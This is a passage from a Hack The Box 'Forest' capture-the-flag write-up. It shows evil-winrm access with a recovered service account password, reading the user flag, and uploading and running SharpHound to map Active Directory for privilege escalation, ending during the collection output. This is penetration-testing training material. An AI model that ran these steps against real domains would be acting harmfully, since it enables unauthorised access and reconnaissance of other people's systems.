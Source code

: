 ###### evil-winrm connects on port 5985 by default

```
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice                                       
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
5b7********************************************
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> 
```

### Privilege Escalation using winPEAS

I got access denied for the most things when running winPEAS.bat. So I will need to find another way to find the path for the Privilege Escalation. 

### Privilege Escalation using BloodHound

So this time, I am using BloodHound and SharpHound to prepare the privilege escalation path. I will be writing this notes in little detail because I have played with BloodHound and I know the stress of it.  

Lets' first Download the [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) and get it on our target. Make sure to use exactly this link of SharpHound because BloodHound is compatible with only this particular EXE Version.
```
####### UPLOADING THE SharpHound.exe ON THE TARGET

*Evil-WinRM* PS C:\tmp> upload SharpHound.exe
Info: Uploading /home/ringbuffer/Downloads/Forest.htb/SharpHound.exe to C:\tmp\SharpHound.exe
Data: 1395368 bytes of 1395368 bytes copied                                    
Info: Upload successful!

####### RUNNING SharpHound.exe - NOTICE THE FIRST LINE. This Version of SharpHound is Compatible with 4.3.1 Release of BloodHound

*Evil-WinRM* PS C:\tmp> .\SharpHound.exe
2024-08-12T22:03:24.7901824-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-08-12T22:03:24.9464240-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-12T22:03:24.9776786-07:00|INFORMATION|Initializing SharpHound at 10:03 PM on 8/12/2024
2024-08-12T22:03:25.1964245-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2024-08-12T22:03:25.3214256-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-12T22:03:25.9308123-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-08-12T22:03:26.1339403-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-08-12T22:03:26.1339403-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-08-12T22:03:56.0246195-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
2024-08-12T22:04:11.3059140-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-08-12T22:04:11.3527774-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-08-12T22:04:11.4465301-07:00|INFORMATION|Status: 161 objects finished (+161 3.577778)/s -- Using 47 MB RAM
2024-08-12T22:04:11.4465301-07:00|INFORMATION|Enumeration finished in 00:00:45.5370339
2024-08-12T22:04:11.5402761-07:00|INFORMATION|Saving cache with stats: 118 ID to type mappings.
 117 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
```